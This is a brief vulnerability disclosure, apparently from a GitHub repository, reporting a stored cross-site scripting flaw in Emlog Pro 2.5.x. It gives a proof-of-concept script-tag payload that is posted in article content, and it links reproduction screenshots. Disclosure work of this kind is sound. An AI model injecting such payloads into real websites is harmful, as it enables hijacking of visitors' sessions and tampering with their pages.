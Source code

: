 # Emlog pro introduce

EMLOG is a lightweight open-source blog and CMS website building system that is fast, resource efficient, and easy to use, suitable for building websites of all sizes.

### The affected version

emlog pro 2.5.x
Project address： https://github.com/emlog/emlog

## Vulnerability description

Storage type XSS

## Vulnerability recurrence

Publish article content and inject malicious XSS

```
test"><script>alert(/test123123123123123123/)</script>
```

![image-20250301162720171](https://cdn.jsdelivr.net/gh/bGl1o/Pictures@img/202503011627377.png)

Click the posted note

![image-20250301162818187](https://cdn.jsdelivr.net/gh/bGl1o/Pictures@img/202503011628443.png)

